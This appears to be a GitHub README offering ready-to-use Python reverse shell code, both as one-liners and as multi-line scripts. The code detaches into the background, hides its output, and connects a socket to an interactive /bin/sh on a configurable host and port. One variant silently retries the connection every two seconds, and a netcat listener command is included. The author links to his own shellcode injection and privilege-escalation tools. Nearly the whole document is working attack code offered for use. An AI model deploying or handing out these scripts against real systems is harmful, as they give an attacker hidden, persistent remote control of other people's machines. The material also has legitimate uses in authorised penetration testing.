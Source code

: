 # Python 2 & 3 reverse shell one liner detached (background) By David Reguera Garcia aka Dreg

just change **connect(("127.0.0.1",9999))**

## Simple reverse shell
```
python -c 'exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect(("127.0.0.1",9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```

## Infinite loop reverse shell each 2 seconds:
```
 python -c 'exec("""\nimport socket,subprocess,os,sys, time\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\nos.setsid()\nos.umask(0)\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nwhile 1:\n        try:\n                sys.stdout.flush()\n\n                sys.stderr.flush()\n\n                fdreg = open("/dev/null", "w")\n\n                sys.stdout = fdreg\n\n                sys.stderr = fdreg\n\n                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\n                sdregs.connect(("127.0.0.1",9999))\n\n                os.dup2(sdregs.fileno(),0)\n\n                os.dup2(sdregs.fileno(),1)\n\n                os.dup2(sdregs.fileno(),2)\n\n                p=subprocess.call(["/bin/sh","-i"])\n\n                sdregs.close()\n\n        except Exception:\n                pass\n\n        time.sleep(2)\n""")'
```

Just wait for reverse shell with a nc
```
while true; do nc -lvp 9999; done
```

---

I made this for my shellcode injector in sudo shells via ptrace:

https://github.com/David-Reguera-Garcia-Dreg/drx_ptrace_shellcode_injector

https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

https://github.com/David-Reguera-Garcia-Dreg/

http://www.fr33project.org

dreg@fr33project.org

## multi line code

### Simple reverse shell 

```
#!/usr/bin/env python

# David Reguera Garcia aka Dreg
# https://github.com/David-Reguera-Garcia-Dreg/
# http://www.fr33project.org
# dreg@fr33project.org

import socket,subprocess,os,sys

pidrg = os.fork()
if pidrg > 0:
	sys.exit(0)

os.chdir("/")

os.setsid()

os.umask(0)

drgpid = os.fork()
if drgpid > 0:
	sys.exit(0)

sys.stdout.flush()

sys.stderr.flush()

fdreg = open("/dev/null", "w")

sys.stdout = fdreg

sys.stderr = fdreg

sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

sdregs.connect(("127.0.0.1",9999))

os.dup2(sdregs.fileno(),0)

os.dup2(sdregs.fileno(),1)

os.dup2(sdregs.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

### Infinite loop reverse shell each 2 seconds

```
#!/usr/bin/env python

# David Reguera Garcia aka Dreg
# https://github.com/David-Reguera-Garcia-Dreg/
# http://www.fr33project.org
# dreg@fr33project.org

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()

                sys.stderr.flush()

                fdreg = open("/dev/null", "w")

                sys.stdout = fdreg

                sys.stderr = fdreg

                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

                sdregs.connect(("127.0.0.1",9999))

                os.dup2(sdregs.fileno(),0)

                os.dup2(sdregs.fileno(),1)

                os.dup2(sdregs.fileno(),2)

                p=subprocess.call(["/bin/sh","-i"])

                sdregs.close()

        except Exception:
                pass

        time.sleep(2)
```

---

http://jagt.github.io/python-single-line-convert/
